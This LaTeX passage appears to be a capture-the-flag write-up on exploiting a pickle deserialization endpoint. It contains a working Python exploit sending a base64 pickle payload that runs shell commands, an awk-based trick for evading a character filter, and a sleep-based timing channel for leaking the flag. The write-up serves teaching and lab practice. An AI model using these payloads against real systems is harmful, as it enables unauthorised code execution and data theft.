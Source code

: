 \documentclass{article}
\begin{document}
\section{Implementation}
\subsection{Restriction Bypass}
Knowing these restrictions, I started bypassing them. My first goal: Executing \texttt{cat ../flag.txt}. First I tried extracting the '.' out of the output of \texttt{ls} which would include 'app.py' and the '/' out of the output of \texttt{pwd}. Without regex (since very control characters were blocked) I would rather not want to do that and I looked into ascii integer value to char conversion in bash. I found \href{https://stackoverflow.com/questions/890262/integer-ascii-value-to-character-in-bash-using-printf}{\texttt awk 'BEGIN{printf "\%c", 65}'}.
With this I got the bypass for the server side filter solved:
For my first goal of \texttt{cat ../flag.txt} I got this(original without newlines):
\begin{lstlisting}[language=Bash]
    cat $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 47}')
        flag$(awk 'BEGIN{printf "%c", 46}')txt
\end{lstlisting}
For simplicity I will replace this bash command above in the future with \texttt{CAT}.
\newline
To test the information leaking via sleep I started with the length. I used
\begin{lstlisting}[language=Bash]
    sleep $(CAT | wc -c)
\end{lstlisting}
to sleep the server for the length of the flag. To catch this information I implemented this in python:
\begin{lstlisting}[language=Python]
def send_code(code):
    payload = b"cos\nsystem\n(S'" + code + b"'\ntR"
    exploit = base64.b64encode(payload).decode()
    form = {
            'data': exploit
    }
    start_time = time.time()
    r = requests.post("http://IP:PORT/deserialize", data=form)
    end_time = time.time()
    elapsed_time = end_time - start_time
    print(f"Request took {elapsed_time:.1f} seconds")
    print(r.status_code)
    print(r.text)
    return elapsed_time
\end{lstlisting}
'code' is the bash code and 'elapsed\_time' would be the length of the flag in this case. I got 15 for the length of my dummy flag (which was correct) and 25 for the actual challenge flag. To test for lags to the remote server, I made several requests and compared the expected run time to the actual runtime since this could add noise to the sleep based data transfer. The highest lag I got was 0.6 seconds. I decided it was fine and continued.
\end{document}
